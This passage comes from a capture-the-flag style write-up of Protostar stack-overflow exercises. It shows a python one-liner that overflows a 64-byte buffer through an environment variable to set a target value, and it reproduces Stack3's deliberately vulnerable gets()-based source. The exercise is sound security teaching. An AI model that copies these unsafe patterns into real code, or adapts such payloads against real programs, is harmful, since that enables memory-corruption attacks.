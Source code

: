 strcpy() is considered a dangerous function because if the destination buffer is
not large enough to hold the source contents, it will overflow. This means if
the data in GREENIE exceeds 64 bytes, ```buffer``` will overflow.

This time around the value we need to set to ```modified``` is 0x0d0a0d0a.

```
GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'") ./stack2
you have correctly modified the variable
```

Again, this is the same as the previous, except the value we want to inject is
different and the delivery is through an environment variable rather than a
program argument.

## Stack3

### Description

https://exploit-exercises.com/protostar/stack3/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

### Write-up

This challenge truly demonstrates the dangers of being able to control a
variable's value.

Here, we have to overwrite a 4 byte variable (the same idea as in Stack1 & 2)
only this time, the variable is a function pointer. The value we have to set
it to is the address of the function win.
